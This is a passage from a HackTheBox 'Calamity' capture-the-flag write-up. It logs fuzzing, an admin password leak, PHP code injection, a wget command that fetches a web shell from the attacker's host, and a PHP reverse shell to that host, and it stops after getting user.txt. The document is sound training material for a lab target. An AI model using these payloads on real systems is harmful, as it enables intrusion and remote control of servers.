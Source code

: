 ```yaml
---
title: '[HackTheBox] "Calamity" machine writeup (Checkpoint style)'
date: 2020-08-21T01:27:10+03:00
tags: [writeup, binary-exploit, hackthebox]
---
```


## Legend:
- `[*]` – Info
- `[+]` – Progress
- `[-]` – No use / Dead end
- `[!]` – Important
- `[?]` – Maybe useful
- `==========` – Next stage

## Files:
https://mega.nz/folder/YYFxCaJb#0hvxc6kq2zmTHrUp7qcerg

## Checkpoints:
`[*]` **80/tcp**: Apache 2.4.18

`[*]` wfuzz:
- `/admin.php`
- `/uploads` (*has listing*)

`[+]` `$ curl http://10.10.10.27/admin.php` yields password.

`[+]` Logged in as admin.

`[+]` The most elite RCE there.
```
<?php sleep(10); ?>
```
`[*]` We'll use it to upload a shell to **/uploads**.
```
<?php system("wget http://10.10.14.12:8000/phpbash.php -O ./uploads/phpbash.php"); ?>
```
`[+]` Success. 

`[-]` Hm. Something kills foreign processes.

`[+]` Oh, PHP reverse TCP shell worked like a charm:
```
php -r '$sock=fsockopen("10.10.14.12",4242);passthru("/bin/sh -i <&3 >&3 2>&3");'
```
`[+]` Username: **xalvas**.

`[+]` Got **user.txt**.

`[*]` Extracted audio files.

`[*]` (exiftool) recov.wav has the following comment: "Isn't this were we came in?". Pink Floyd, eh?
